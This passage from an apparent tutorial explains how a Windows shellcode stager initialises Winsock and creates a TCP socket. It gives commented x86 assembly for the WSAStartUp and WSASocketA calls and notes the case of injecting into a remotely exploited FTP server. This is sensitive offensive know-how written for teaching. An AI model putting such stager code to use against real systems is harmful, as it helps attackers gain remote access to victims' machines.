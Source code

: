 It is worth mentioning again that this step would be skipped if this shellcode were being injected into, say, an FTP server’s process that was being remotely exploited. Such a process has already loaded ws2_32.dll and called `WSAStartUp` for its use.

It looks like this in Assembly:

```
; Execute WSAStartUp

XOR EBX,EBX        ; Zero EBX
MOV BX,0x0190      ; Set lower bytes to 0x0190
SUB ESP,EBX        ; Subtract EBX from ESP
PUSH ESP           ; Push ESP for lsWSAData
PUSH EBX           ; Push EBX for wVersionRequested

MOV EBX,0x71AB6A55 ; MOV EAX,WS2_32.WSAStartUp
CALL EBX           ; Call WSAStartUp
``` 

## WSASocketA

`WSASocketA` creates a socket that can be used for the stager. There are more arguments for this one:

```c
SOCKET WSASocket(
 _In_ int af,
 _In_ int type,
 _In_ int protocol,
 _In_ LPWSAPROTOCOL_INFO lpProtocolInfo,
 _In_ GROUP g,
 _In_ DWORD dwFlags
);
```

The MSDN documentation has a lot of additional details, but the stager largely ignores the arguments beyond af and type, setting them to 0 or NULL. The socket needed for the stager is `AF_INET` of type `SOCK_STREAM`. If everything works, `WSASocketA` will return a socket descriptor that will be used going forward.

The `AF_INET` represents the Address Family (AF) and will use internet addresses (INET). This means IP addresses. The `SOCK_STREAM` type represents a sequenced, reliable, two-way connection-based byte stream. In other words, the socket is setup for IP addresses and TCP connections.

As an aside, this is what happens when a new socket is created in a high level language like Python, e.g. `s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)`. The descriptor is what is stored in the variable and allows for commands like `s.connect((IP, PORT))`.

It looks like this in Assembly:

```
; Setup a new socket using WSASocketA
; If no error occurs, WSASocketA returns a descriptor

XOR EDI,EDI        ; Set EDI to NULL
PUSH EDI           ; Push dwFlags arg -- 0 means no flags
PUSH EDI           ; Push g arg -- 0 means no group operation
PUSH EDI           ; Push lpProtocolInfo arg -- NULL 
PUSH EDI           ; Push the protocol arg -- 0 means no protocol specified
INC EDI            ; Increment EDI to 1
PUSH EDI           ; Push the type argument as 1 (SOCK_STREAM)
INC EDI            ; Increment EDI to 2
PUSH EDI           ; Push af argument as 2 (AF_INET)

MOV EBX,0x71AB8B6A ; MOV EAX,WS2_32.WSASocketA
CALL EBX           ; CALL WSASocketA

MOV EDI,EAX        ; Save socket descriptor in EDI
```
